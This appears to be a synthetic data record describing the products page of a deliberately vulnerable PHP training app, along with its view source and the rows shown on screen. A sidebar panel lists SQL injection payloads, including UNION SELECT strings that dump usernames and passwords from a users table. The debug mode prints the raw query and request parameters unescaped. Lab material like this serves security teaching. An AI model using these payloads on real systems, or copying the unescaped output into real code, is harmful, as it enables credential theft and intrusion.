
The app's page /products.php?debug=1 with its own data.
### tables this page shows
CREATE TABLE products (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    description TEXT,
    price DECIMAL(10,2),
    category VARCHAR(50),
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### src/products.php (the view, shortened to what this page needs)
<?php
$search = $_GET['search'] ?? '';
include 'header.php';
?>
<div class="row">
    <div class="col-md-3">
        <div class="card">
            <div class="card-header">
                <h5>🔍 Search Products</h5>
            </div>
            <div class="card-body">
                <form method="GET" action="products.php">
                    <div class="mb-3">
                        <label for="search" class="form-label">Search</label>
                        <input type="text" class="form-control" id="search" name="search"
                               value="<?php echo htmlspecialchars($search); ?>"
                               placeholder="Enter product name...">
                    </div>
                    <div class="mb-3">
                        <label for="category" class="form-label">Category</label>
                        <select class="form-control" id="category" name="category">
                            <option value="">All Categories</option>
                        </select>
                    </div>
                    <button type="submit" class="btn btn-primary btn-sm">Search</button>
                    <a href="products.php" class="btn btn-outline-secondary btn-sm">Clear</a>
                </form>
                <hr>
                <div class="alert alert-danger p-2">
                    <h6 class="mb-1">🎯 SQL Injection Testing</h6>
                    <p class="mb-1 small">Table <strong>products</strong> has 6 cols:<br>
                        <code style="font-size:.7rem;">id, name, description, price, category, created_at</code>
                    </p>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">1. Return all rows</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' OR '1'='1'-- -</code>
                        </div>
                        <small class="text-muted">Looks same as default — all products shown</small>
                    </div>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">2. Dump credentials</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' UNION SELECT 1,username,password,4,5,6 FROM users-- -</code>
                        </div>
                        <small class="text-muted">Shows username/password as product rows</small>
                    </div>
                    <div class="mb-1">
                        <span class="badge bg-dark mb-1">3. Dump only (no products)</span>
                        <div class="bg-light rounded p-1" style="word-break:break-all;font-size:.72rem;">
                            <code>' AND 1=2 UNION SELECT NULL,concat(username,':',password),NULL,NULL,NULL,NULL FROM users-- -</code>
                        </div>
                        <small class="text-muted">Hides real products, shows user:pass only</small>
                    </div>
                    <p class="mb-0 small">💡 Append <code>?debug=1</code> to URL to see raw SQL.</p>
                </div>
            </div>
        </div>
    </div>
    <div class="col-md-9">
        <div class="d-flex justify-content-between align-items-center mb-3">
            <h3>📦 Products</h3>
        </div>
        <?php
        $conn = getConnection();
        $query = "SELECT * FROM products WHERE 1=1";
        $query .= " ORDER BY created_at DESC";
        if (isset($_GET['debug'])) {
            echo "<div class='alert alert-info'><strong>Query:</strong> <code>$query</code></div>";
        }
        $result = $conn->query($query);
        if (!$result) {
            echo "<div class='alert alert-danger'>Database Error: " . $conn->error . "</div>";
        } else {
            if ($result->num_rows === 0) {
                echo "<div class='alert alert-warning'>No products found matching your criteria.</div>";
            } else {
                echo "<div class='row'>";
                while ($product = $result->fetch_assoc()) {
                    ?>
                    <div class="col-md-6 mb-4">
                        <div class="card">
                            <div class="card-header">
                                <h5 class="card-title mb-0"><?php echo htmlspecialchars($product['name']); ?></h5>
                                <small class="text-muted"><?php echo htmlspecialchars($product['category']); ?></small>
                            </div>
                            <div class="card-body">
                                <p class="card-text"><?php echo htmlspecialchars($product['description']); ?></p>
                                <p class="text-primary">
                                    <strong>Price: $<?php echo number_format($product['price'], 2, '.', ','); ?></strong>
                                </p>
                                <div class="btn-group" role="group">
                                    <a href="product_detail.php?id=<?php echo $product['id']; ?>" class="btn btn-primary btn-sm">View Details</a>
                                </div>
                            </div>
                            <div class="card-footer text-muted">
                                Created: <?php echo date('M j, Y', strtotime($product['created_at'])); ?>
                            </div>
                        </div>
                    </div>
                    <?php
                }
                echo "</div>";
            }
        }
        ?>
        <?php if (isset($_GET['debug'])): ?>
        <div class="alert alert-secondary mt-4">
            <h5>🐛 Debug Information</h5>
            <p><strong>Search Parameters:</strong></p>
            <pre><?php print_r($_GET); ?></pre>
            <p><strong>SQL Query:</strong></p>
            <pre><?php echo $query; ?></pre>
            <?php if (isset($result) && $result): ?>
                <p><strong>Result Count:</strong> <?php echo $result->num_rows; ?></p>
            <?php endif; ?>
        </div>
        <?php endif; ?>
    </div>
</div>
<?php include 'footer.php'; ?>

### records on screen
products: name "Gaming Laptop", category "Electronics", description "High-performance gaming laptop", price "1,299.00", created_at "Mar 29, 2026"
products: name "Android Smartphone", category "Electronics", description "Latest Android smartphone", price "699.00", created_at "Mar 29, 2026"
products: name "Coffee Maker", category "Home", description "Automatic coffee brewing machine", price "199.00", created_at "Mar 29, 2026"
products: name "Wireless Headphones", category "Electronics", description "Noise-canceling wireless headphones", price "299.00", created_at "Mar 29, 2026"
products: name "Smart Watch", category "Electronics", description "Fitness tracking smartwatch", price "399.00", created_at "Mar 29, 2026"

### other values on screen
$query "SELECT * FROM products WHERE 1=1 ORDER BY created_at DESC"
$result->num_rows "5"
